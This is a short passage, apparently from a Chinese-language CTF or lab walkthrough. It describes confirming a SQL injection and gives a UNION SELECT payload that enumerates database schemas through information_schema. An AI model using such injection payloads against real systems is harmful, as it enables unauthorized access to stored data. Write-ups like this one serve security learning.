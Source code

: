 ![image-20220906204718572](../../.gitbook/assets/image-20220906204718572.png)

太棒了，数据库表中的所有内容都会返回给我们，包括成功记录，这意味着我们自己获得了 SQL 注入。

由于我们看到发送给我们的电子邮件中有四列，我们可以尝试使用以下查询获取数据库列表。

```
a" UNION SELECT group_concat(schema_name),2,3,4 FROM information_schema.schemata -- -
```

![image-20220906210829813](../../.gitbook/assets/image-20220906210829813.png)
